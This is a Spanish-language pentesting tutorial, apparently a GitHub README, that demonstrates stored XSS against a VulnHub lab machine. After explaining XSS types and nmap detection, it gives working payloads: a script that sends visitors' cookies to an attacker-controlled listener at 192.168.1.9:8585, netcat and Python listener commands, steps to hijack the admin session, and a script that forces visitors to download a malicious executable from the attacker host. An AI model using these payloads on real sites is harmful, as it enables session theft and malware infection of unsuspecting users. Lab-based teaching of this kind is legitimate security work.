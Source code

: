 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=435&lines=Ataque+XSS+y+secuestro+de+Cookies"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD XSS</ins></h3>

Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).

#### ¿Cómo se inyecta el script malicioso?

Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.

### Tipos de ataques de Croo-Site Scripting

Existen tres tipos de vectores de XSS:

**XSS indirecto** (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.

**XSS directo** (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.

**XSS basado en DOM**: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/ataqueXSS.png">
</p>

</br>

#### Cookies

Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada. 

Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.

<h1 align="center"></h1>

### DETECTAR DETECTAR VULNERABILIDAD XSS

Como muestra de ejemplo, descargué una máquina de vulnhub llamada "<a href="https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/">*PENTESTER LAB: XSS AND MYSQL*"</a> para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

![1](https://user-images.githubusercontent.com/75953873/187095720-5b148555-7d80-40b8-95b5-0d301acaf744.png)

Servidor web: `http://192.168.25.135`

Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
```
nmap -p80 --script http-stored-xss.nse <TARGET>
```
![2](https://user-images.githubusercontent.com/75953873/187103485-4175545b-bcf0-49a0-9398-3ea6b2502d44.png)

También podemos hacer uso de herramientas como <a href="https://github.com/s0md3v/XSStrike">XSStrike</a>, <a href="https://github.com/pwn0sec/PwnXSS">PwnXSS</a>, entre otras existentes.

![3](https://user-images.githubusercontent.com/75953873/187104187-dc163b7c-8143-4ba5-be3a-cd23cf677eaf.png)

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
```javascript

<script>alert("Vulnerable a XSS");</script>
```
![4](https://user-images.githubusercontent.com/75953873/187104531-69d35d55-df37-417c-9db1-cc1302f1155a.png)

Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

![5](https://user-images.githubusercontent.com/75953873/187104588-eaaeca8f-ac55-4567-a058-fe27c894e108.png)

<h1 align="center"></h1>

### SECUESTRO DE COOKIES

Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es dónde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
```javascript

<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>
```
La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es dónde se va a escribir y almacenar la cookie.

![6](https://user-images.githubusercontent.com/75953873/187104762-5a305614-8366-4d1e-90b3-64790bb5ebe9.png)

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
```
Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
```
![7](https://user-images.githubusercontent.com/75953873/187104875-9ea540b9-0fd4-464f-b23e-c5c769cd215d.png)

Cookie: `u61dlmmqrsrbt612lmu4tmh0o5`

Después de capturar la cookie, descargan la extensión "<a href="https://addons.mozilla.org/es/firefox/addon/a-cookie-manager/">*Cookie Manager*</a>" del navegador Firefox y creamos una nueva cookie. En value pegan la cookie y en la URL el sitio web:

![8](https://user-images.githubusercontent.com/75953873/187105199-31eadfc0-724c-45c5-9722-90b0d6788a43.png)

Recargamos la página y le damos a "*Admin*" y como verán, iniciamos sesión en la cuenta del administrador sin necesidad de aportar ninguna credencial.

![9](https://user-images.githubusercontent.com/75953873/187105257-1168179e-7513-4ee1-b32e-aeb81d7db482.png)

<h1 align="center"></h1>

### OBTENER CONTROL DE LA MÁQUINA DEL USUARIO

Aquí es dónde viene lo peligroso, no solamente podemos hackear el sitio web, sino también cargar un software o código malicioso para que cualquier usuario que visite el sitio web descargue el malware y se infecte. Para eso es necesario utilizar otro script más malicioso aún:

```javascript

<script>var software = document.createElement('a');
software.href='http://192.168.1.9/documento.exe';
software.download= '';
document.body.appendChild(software);
software.click();</script>
```
![10](https://user-images.githubusercontent.com/75953873/187105472-dfb6d4b4-1c4b-44a9-a4cb-d53f32d0b16f.png)

En el código anterior se crea una variable llamada "**software**" en dónde se le indica que redireccione al usuario a la página (nuestra IP local) y descargue el programa malicioso (*documento.exe*). Posteriormente hay que crear el archivo ejecutable malicioso con msfvenom, LHOST es su IP local y el LPORT pueden cambiarlo o dejarlo tal cual, al final especifique la ruta en el directorio raíz del servidor local y finalmente el nombre del archivo.

